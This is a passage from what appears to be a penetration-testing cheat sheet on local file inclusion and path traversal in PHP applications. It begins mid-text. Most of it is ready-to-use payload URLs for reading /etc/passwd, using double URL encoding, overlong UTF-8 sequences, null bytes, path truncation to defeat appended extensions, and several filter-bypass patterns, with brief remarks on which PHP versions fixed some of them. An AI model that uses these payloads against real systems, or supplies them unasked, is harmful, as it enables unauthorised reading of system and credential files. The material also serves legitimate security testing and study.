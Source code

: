 This is **solved since PHP 5.4**

### **Encoding**

You could use non-standard encondings like double URL encode \(and others\):

```text
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### From existent folder

Maybe the back-end is checking the folder path:

```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

### **Path truncation**

Bypass the append of more chars at the end of the provided string \(bypass of: $\_GET\['param'\]."php"\)

```text
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```

```text
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

Always try to **start** the path **with a fake directory** \(a/\).

**This vulnerability was corrected in PHP 5.3.**

### **Filter bypass tricks**

```text
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
```
